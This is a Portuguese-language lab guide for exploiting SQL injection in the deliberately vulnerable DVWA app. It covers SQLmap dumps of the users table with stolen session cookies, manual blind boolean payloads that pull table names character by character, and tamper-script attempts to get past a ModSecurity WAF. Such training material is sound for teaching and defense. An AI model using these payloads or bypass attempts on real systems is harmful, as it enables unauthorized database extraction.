

A primeira coisa que vamos fazer é já tentar listar as bases de dados disponíveis. Para tal, devemos indicar o alvo no campo "Target". Informe o IP do DVWA (`192.168.0.20`) com o caminho e os parâmetros da aplicação vulnerável (`/vulnerabilities/sqli/?id=a&Submit=Submit`). Coloque tudo isso cercado de aspas simples. Assim o campo "Target" deve ter `'192.168.0.20/vulnerabilities/sqli/?id=a&Submit=Submit'` como mostra a imagem abaixo:


Como se trata de um teste em uma parte da aplicação que é após um processo de autenticação (lembra que você fez login no DVWA? Pois bem), então devemos informar cookies de sessão para que o SQLmap também consiga acessar a página.

Estando na página do DVWA abra o console do navegador para execução de código javascript. Você consegue chegar ao console pressionando `control + shift + k` ou clicando com o botão direito na página depois em "Inspecionar" e por fim em "Console".

Com o console aberto, digite nele o código javascript para mostrar os cookies definidos:

```
document.cookie
```

Será mostrado os cookies, como na imagem abaixo:



Copie a saída, inclusive as aspas duplas. Agora, de volta à página do SQLmap no Secflood, procure pelo campo de "Cookie" e cole o que você acabou de copiar, como está na imagem abaixo:



Depois selecione a opção "Databases":



Em seguida clique em "Execute" e analise o retorno da execução da ferramenta. Você poderá ver que o SQLmap listou todas as bases de dados do ambiente, como já tínhamos visto na atividade anterior.



> [!IMPORTANT]
> Além dos nomes das base de dados, o que mais você vê de interessante na saída do SQLmap? Quais são os tipos de injeção que o SQLmap detectou?

<textarea name="resposta_sqlmap_1" rows="6" cols="80" placeholder="Escreva sua resposta aqui..."> </textarea>

Com o nome do banco de dados em mãos, vamos seguir o processo de descobrir quais tabelas há nele. Digite o nome do banco no campo `Database`:



Então desmarque o campo "Databases" e marque "Tables", em seguida clique em "Execute" e analise o resultado.



Dando continuidade, vamos especificar a tabela e buscar pelas colunas que a compõem. Para isso, especifique `users` no campo `Table`:



Desmarque o campo `Tables` e marque `Columns` e analise o resultado.



Novamente conseguimos as informações da estrutura do banco de dados que são pertinentes para nossa extração. Agora vamos seguir para coletar os dados do usuário. Indique as colunas que deseja fazer a coleta no campo `Column`:



Por fim, desmarque o campo "Columns" e marque "Dump". Depois disso clique em "Execute" e veja o resultado obtido:



> [!IMPORTANT]
> A imagem acima há apenas algumas entradas dos dados obtidos. Nos envie todos os dados extraídos na última execução do SQLmap por aqui.

<textarea name="resposta_sqlmap_2" rows="6" cols="80" placeholder="Escreva sua resposta aqui..."> </textarea>

> [!TIP]
> Você reparou a quantidade de opções que o SQLmap tem? Aproveita para ver sobre o funcionamento de algumas delas. Por exemplo, tente utilizar a opção "Dump all" e veja o que acontece.

## Atividade 4 - Exploração manual de injeção de SQL do tipo cego

O tipo de injeção SQL que exploramos na atividade anterior é chamado de UNION, pois com ele conseguimos visualizar na página web o retorno da consulta SQL realizada, por isso tivemos um passo para identificar onde a saída da consulta estava localizada na página.

Agora nesta atividade iremos tratar de outro tipo de vulnerabilidade de injeção de SQL, o tipo cego. Nesse tipo de vulnerabilidade não temos um retorno direto dos dados da consulta, mas apenas um tipo de resposta verdadeiro ou falso. Acesse a página "SQL Injection (Blind)" no DVWA e insira termos para realizar a busca. Note que, com exceção de casos de erro, os únicos retornos que você tem na página são as seguintes mensagens:





Buscando por '1', encontrou algum registro no banco, por isso o retorno verdadeiro (`User ID exists in the database.`), já ao buscar por '100' não foi encontrado nada no banco de dados, por isso o retorno falso (`User ID is MISSING from the database`).

A exploração é relativamente semelhante: precisamos buscar informações sobre o banco de dados, extrair nomes de tabelas e colunas, para então extrair informações pertinentes. Porém, perceba que a cada consulta realizada conseguimos extrair apenas 1 bit de informação (`verdadeiro` ou `falso`). Por isso o processo nesse tipo é mais demorado e exige mais requisições para o servidor.

O primeiro passo para explorar vulnerabilidade de injeção de SQL cego é montarmos uma consulta booleana (que tenha apenas retorno como verdadeiro ou falso) e identificar alguma diferença na resposta da aplicação para saber qual é o caso verdadeiro e qual o caso falso.

Envie a seguinte entrada no campo da aplicação do DVWA:

```
1' AND 1=1 #
```

Essa entrada vai modificar a consulta para um retorno verdadeiro, note na mensagem de resposta. Depois envie uma consulta que o retorno deve ser falso, como a entrada abaixo:

```
1' AND 1=2 #
```

A partir de consultas booleanas vamos buscar quantas tabelas há no banco de dados. Envie o seguinte payload no DVWA:

```
1' AND (SELECT count(*) FROM information_schema.tables WHERE table_schema=database())=1 #
```

Com esse payload estamos consultando se a contagem de tabelas no banco de dados é igual a 1. Pelo retorno você deve entender que o resultado foi falso. Então vamos modificar para ver se o resultado é igual a 2. Envie o seguinte no DVWA:

```
1' AND (SELECT count(*) FROM information_schema.tables WHERE table_schema=database())=2 #
```

Já por esse retorno que foi verdadeiro sabemos que a consulta retornou também verdadeiro, então sabemos que no banco de dados do sistema há duas tabelas. Como só conseguimos uma resposta booleana por vez, vamos descobrir o nome das tabelas, mas vai ser letra por letra.

Então, de início, vamos ver quantas letras há no nome de cada tabela. A consulta para saber a quantidade de caracteres no nome da tabela é como segue, então envie essa entrada no DVWA e analise a resposta:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)>5 #
```

Pelo retorno positivo, vemos que o nome da primeira tabela tem mais de 5 caracteres. Vamos tentar um número mais alto:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)>10 #
```

Agora com o retorno falso sabemos que o número de caracteres está entre 5 e 10. Vamos tentar um número intermediário, 7:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)>7 #
```

Certo, então está entre 7 e 10. Como faltam poucas possibilidades, vamos tentar com o sinal de igual agora, assim podemos tentar se é igual a 8, 9 ou 10:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1)=9 #
```

Pronto, encontramos que a primeira tabela tem 9 caracteres! Vamos tentar a segunda agora, basta seguir o mesmo raciocínio mas utilizando a cláusula `OFFSET` para lidarmos com a segunda entrada do retorno da consulta.

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)>5 #
```

Pelo retorno negativo inferimos que a quantidade de caracteres no nome da segunda tabela é menor que 5. Vamos tentar um número intermediário, 3:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)>3 #
```

Agora com o retorno positivo então sabemos que a quantidade de caracteres ou é 4 ou 5. Vamos tentar com a igualdade:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)=4 #
```

Falso, então vamos tentar 5, só para confirmar:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)=5 #
```

Certo, então temos que a primeira tabela tem um nome de 9 caracteres e a segunda de 5 caracteres. Vamos continuar com esse processo manual para extrair o nome da segunda tabela, letra por letra. Para isso vamos utilizar a função `ASCII()` e `SUBSTR()`. `ASCII()` vai converter a letra para o caractere ASCII correspondente, assim podemos continuar usando a lógica de busca binária para ser mais prática a extração. Já a função `SUBSTR()` serve para pegarmos letra por letra do nome da tabela.

Vamos começar pela primeira letra do nome da segunda tabela. Os caracteres ASCII imprimíveis vão de 32 até 127, então temos esse range de busca. Vamos começar por um valor intermediário, 47. Envie o seguinte no DVWA:

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>79 #
```

Sendo verdadeiro, vamos incrementar para um valor intermediário da segunda parte do intervalo, 103.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>103 #
```

Continua verdadeiro, então incrementamos ainda mais, agora o número será 115.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>115 #
```

Ainda sendo verdadeiro, vamos para outro número entre 115 e 127, será 121.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>121 #
```

Agora deu falso, o que significa que o número está no intervalo entre 115 e 121. Vamos escolher um número intermediário, 118.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>118 #
```

Novamente falso, então pode ser 116, 117 ou 118. Vamos testar com igualdade agora.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))=117 #
```

Deu verdadeiro! Então o primeiro caractere é o correspondente ASCII 117, que é o `u`. Você pode ver isso na tabela no [man ascii](https://www.man7.org/linux/man-pages/man7/ascii.7.html).

O processo é esse para descobrir as informações. Vamos fazer novamente para o segundo caractere. Basta modificar no `SUBSTR()` o offset, agora sendo a segunda letra. Então o que é para ser enviado para o DVWA fica assim:

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>79 #
```

Deu verdadeiro, então você já sabe o que isso significa, certo? Quer dizer que a segunda letra está no intervalo entre 79 e 127. Basta seguir o mesmo processo, vamos escolher um número intermediário, 103.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>103 #
```

Novamente sendo verdadeiro, então o caractere está no intervalo 103 e 127. Vamos tentar 115.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>115 #
```

Agora que deu falso, quer dizer que está no intervalo inferior, entre 103 e 115. Vamos escolher um número intermediário, 109.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>109 #
```

Com o resultado verdadeiro, sabemos que está entre 109 e 115. Vamos escolher 112.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))>112 #
```

Certo, então deve estar entre 113, 114 ou 115. Vamos tentar com igualdade.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))=113 #
```

Falso, mais uma vez:

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))=114 #
```

Agora só para confirmar que é 115:

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 2, 1))=115 #
```

115 em ASCII significa ser o caractere `s`. Então já sabemos que a segunda tabela começa com `us`.

> [!IMPORTANT]
> Para não estender esse roteiro mais do que o necessário vamos ficar por aqui nessa atividade, mas é extremamente importante que você repita o processo ensinado para descobrir mais informações, como o nome completo dessa segunda tabela, o nome completo da primeira tabela, quais colunas elas tem e os dados relevantes e assim por diante. Bônus de prática ainda para se você automatizar isso fazendo algum script, por exemplo em python ou mesmo shell script utilizando curl.

> [!TIP]
> Utilizamos busca binária como uma forma de otimizar a extração dos dados conforme você viu. Há ainda outras possibilidades para tentar otimizar, por exemplo buscar primeiro se existem determinados caracteres na informação que você está buscando.

## Atividade 5 - Exploração automatizada de injeção de SQL do tipo cego

Na atividade anterior fizemos o processo de exploração da vulnerabilidade de injeção de SQL do tipo cego completamente manual e você deve ter percebido como é pouco prático fazer a exploração dessa forma. Por isso é importante termos noção de automatizar algumas tarefas para ser mais bem feito e menos propícia a erros. Saber fazer manual é extremamente importante para o aprendizado, para entender bem o que realmente está sendo feito.

Mas como é importante também automatizar, nessa atividades iremos fazer a exploração dessa vulnerabilidade com a ferramenta SQLmap novamente via Secflood, conforme atividade 3.

> [!IMPORTANT]
> É importante que você tenha praticado manualmente como na atividade anterior, ok? Assim você conseguirá aprender melhor o ataque. Além de ter praticado manualmente é bem legal que você dedique um tempo para fazer seu próprio script para automatizar a exploração, como demos dica no final da atividade anterior.

Você já sabe bastante coisa de como utilizar o SQLmap, pois foi bem detalhado na atividade 3, então seremos mais breves nas instruções dessa atividade:

1. Acesse a página do SQLmap via Secflood


2. Insira `'192.168.0.20/vulnerabilities/sqli_blind/?id=1&Submit=Submit#'` no campo de alvo (atenção para colocar as aspas simples)



3. Coloque o cookie no campo correspondente. O código para coletar o cookie é `document.cookie`. Lembre-se de colocar as aspas duplas corretamente.



4. Selecione o campo para a ferramenta buscar as bases de dados:



Clique em executar e analise o resultado:

```
[INFO] testing if GET parameter 'id' is dynamic
...
[WARNING] GET parameter 'id' does not seem to be injectable
[INFO] testing if GET parameter 'Submit' is dynamic
...
[WARNING] GET parameter 'Submit' does not seem to be injectable
```

Pelo que pode ver no resultado da ferramenta ela não conseguiu detectar a vulnerabilidade. Pois bem, veja a importância de entender os conceitos e não apenas executar ferramentas. Com um pouco de análise é possível entender que o problema é que o SQLmap não conseguiu detectar com certeza quando a injeção foi feita com sucesso ou não.

Sendo esse o problema, então podemos informar isso para a ferramenta utilizando o parâmetro `--string`:



Configurando dessa maneira ao executar a ferramenta ela conseguirá injetar e explorar a vulnerabilidade. Depois disso execute o restante dos passos para extrair os dados como você já sabe:

- Informar a base de dados e buscar por tabelas
- Informar a tabela e buscar pelas colunas
- Informar as colunas e fazer dump dos dados

Realizando todos esses passos você deve obter um resultado semelhante ao que seque:



## Atividade 6 - Proteção com Web Application Firewall

Chegamos agora na última atividade do nosso laboratório. Neste ponto iremos tentar explorar a vulnerabilidade de injeção de SQL na mesma aplicação DVWA mas agora ela está protegida por um Web Application Firewall.

Web Application Firewall é um tipo de software que conta com algumas configurações de regras para detectar determinados tipos de ataques e tomar certas ações. Essas ações pode ser apenas detectar e criar entradas de log até mesmo realizar o bloqueio. Na configuração que utilizamos nesse laboratório, o WAF que utilizamos, [ModSecurity](https://modsecurity.org/), está configurado com um conjunto de regras chamado [Core Rule Set](https://coreruleset.org/) que já conta com detecção de injeção de SQL. Nessa instância o ModSecurity está configurado para bloquear as requisições suspeitas.

### 6.1 Teste manual

Vamos testar e confirmar o funcionamento do ModSecurity. Primeiro acesse o serviço DVWA via Dashboard HackInSDN:



Realize login se necessário. Também confirme que o nível de segurança está definido como baixo ("Low"), então acesse a página "SQL Injection". Nessa página vamos fazer alguns usos simples. Primeiro, envie o ID 1, você deve receber como retorno que uma entrada foi encontrada:



Depois disso, teste enviar uma aspas simples (`'`) para verificar a possibilidade de injeção de SQL. Nesse caso um erro simples da aplicação ocorreu. Agora utilize o payload `' OR 1=1 #` para abusar da vulnerabilidade. Perceba que serão listadas todas as entradas da tabela.



Agora faremos o mesmo mas com a aplicação protegida pelo ModSecurity. Clique no serviço "ModSec" no Dashboard HackInSDN:



Caso necessário, faça login na aplicação (mesmo usuário `admin` e senha `password` do DVWA normal). Confirme que o nível de segurança está definido para baixo ("Low") e então acesse a página "SQL Injection". Aqui seguiremos os mesmo testes que fizemos com o DVWA sem a proteção do ModSecurity. Primeiro envie como entrada `1` para buscar por esse identificador.



Depois teste também enviar aspas simples, tal qual fizemos anteriormente. Nesse caso houve novamente um erro de sintaxe reportado pela aplicação. Agora vem a parte interessante: também teste inserir o payload `' OR 1=1 #` para fazer a exploração da vulnerabilidade e perceba o resultado qual foi.



Nesse caso que tentamos fazer a exploração da vulnerabilidade o ModSecurity corretamente entendeu que era um ataque e rapidamente fez o bloqueio da requisição. Essa requisição maliciosa nem sequer chegou ao servidor do DVWA.

### 6.2 Teste com SQLmap

Bom, quando detectamos que há algum tipo de proteção na aplicação (seja do próprio código da aplicação fazendo algum filtro ou de um WAF, por exemplo) é interessante testar algumas formas de ultrapassar essas barreiras.

> [!TIP]
> O melhor modo de realizar esse tipo de validação é manualmente com o auditor identificando o comportamento do sistema ao testar as possibilidades de perpassar pelos filtros. Entretanto, não é objetivo desse laboratório abordar esse tema profundamente, por isso trataremos já com uso do SQLmap para tentar algumas formas de bypasses publicamente conhecida.

Vamos fazer o mesmo tipo de ataque que realizamos anteriormente utilizando o SQLmap, mas dessa vez nosso alvo será a aplicação que está protegida pelo WAF ModSecurity.

Abra o Secflood e acessa a página da ferramenta SQLmap. Você já sabe o que é preciso informar para realizar o ataque com SQLmap, certo?

- Alvo:

> [!WARNING]
> Apenas atenção que o IP da instância com ModSecurity é `192.168.0.30` e o serviço está na porta **8000**!



- Cookies:



- Solicitar listagem das bases de dados:


Depois disso clique em "Execute" e analise o resultado:


Como você pode reparar o próprio SQLmap também não conseguiu fazer a exploração de forma direta. Por isso a ferramenta até dá a dica sobre ter um WAF protegendo a aplicação e sugere o uso de alguns script para modificar a injeção ([tamper](https://github.com/sqlmapproject/sqlmap/wiki/Usage#tamper-injection-data)) na tentativa de fazer o bypass dessas proteções.

Vamos então especificar alguns desses scripts. Você pode ver uma lista completa dos scripts de tamper existentes no próprio [repositório da ferramenta](https://github.com/sqlmapproject/sqlmap/tree/master/tamper). Utilizaremos uma mescla de dois scripts como exemplo: `space2comment` e `space2hash`:


Clique em "Execute" e analise o resultado.

```
[INFO] loading tamper module 'space2comment'
[INFO] loading tamper module 'space2hash'
...
[ERROR] all tested parameters do not appear to be injectable.
```

Mesmo utilizando esses script para tentar o bypass ainda assim não foi possível. Há diversos outros scripts já prontos no repositório da ferramenta além de ser possível tentar manualmente fazer o bypass da proteção do ModSecurity, mas não avançaremos mais que isso.

## Conclusão

Nesse roteiro de laboratório fizemos a exploração de uma vulnerabilidade de injeção de SQL. Aprendemos a realizar o ataque tanto de forma manual quanto de forma automatizada contando com a ajuda do SQLmap. Com isso pudemos usufruir da grande vantagem de utilizar uma ferramenta como esta: a praticidade em alcançar certos resultados. Mas ao mesmo tempo, enfrentamos algumas dificuldades: não conseguir realizar ataques avançados e dependentes de contexto com ultrapassar o WAF.

Ao decorrer do laboratório fizemos a exploração de dois tipos de vulnerabilidades de injeção de SQL: baseado em UNION e do tipo cego. Ainda há diversos outros cenários desse tipo de vulnerabilidade que não foram abordados nesse laboratório, por exemplo: baseado em erro, baseado em tempo, injeção em comandos INSERT, e assim por diante. Aqui serve como um ponto de partida, mas não se limite. :)

> [!CAUTION]
> Veja, colocamos uma atividade para tentar explorar uma aplicação que é protegida por um WAF mas isso não quer dizer que essa é a melhor prática para resolver uma vulnerabilidade. Na verdade, a melhor prática é de fato corrigir a aplicação para que de fato não tenha mais a vulnerabilidade.
>
> Por mais que instanciar um WAF ajude em diversos cenários, ainda assim será uma solução deficiente pois não conhece o contexto da aplicação e pode ser ultrapassado por ataques avançados.
